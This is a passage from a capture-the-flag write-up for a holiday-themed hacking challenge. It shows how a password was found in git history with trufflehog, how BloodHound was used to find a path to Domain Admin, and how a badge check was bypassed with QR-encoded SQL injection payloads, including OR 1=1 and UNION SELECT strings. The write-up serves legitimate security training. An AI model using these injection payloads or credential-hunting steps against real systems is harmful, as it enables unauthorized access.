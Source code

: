 ```shell
$ trufflehog --entropy true santas_castle_automation
...
Reason: High Entropy
Date: 2018-12-11 08:16:57
Hash: 0dfdc124b43a4e7e1233599c429c0328ec8b01ef
Filepath: schematics/files/dot/PW/for_elf_eyes_only.md
Branch: origin/master
Commit: important update

-Password = 'Yippee-ki-yay'
...
```

Which gives us the password: "Yippee-ki-yay"

## Objective 5 - AD Privilege Discovery

I imported the VM into VMWare Player, started it and launched Bloodhound.
In Bloodhound, I ran the query "Shortest patch to DA from kerberoastable".
Looking at the graph, I ignored all edges marked "CanRDP" and thus arrived at the only remaining account: "LDUBEJ00320@AD.KRINGLECASTLE.COM"

## Obj 6 - Badge Manipulation

We can analyze the given badge with zbarimg.

```shell
$ zbarimg alabaster_badge.jpg
QR-Code:oRfjg5uGHmbduj2m
```

The badge contains an ID and the hypothesis is that it is passed to an SQL query.
We try encoding and submitting some QR codes with an SQL injection payload.
The following attempts gives various types of errors:

```shell
$ qrencode -o badge_hack.png "' OR '1'='1"
$ qrencode -o badge_hack.png "'/**/OR/**/'1'='1" 
$ qrencode -o badge_hack.png "'/**/OR/**/'1'='0"
```

This tells us that the account found by the 1=1 is disabled so we need to insert a dummy account with a UNION statement.
We try until we get the number of columns right.

```shell
$ qrencode -o badge_hack2.png "' UNION SELECT 1;#"
...
$ qrencode -o badge_hack2.png "' UNION SELECT 1,2,3;#"
```

This unlocks the door and gives us the access control number: 19880715

## Objective 7 - HR Incident Response
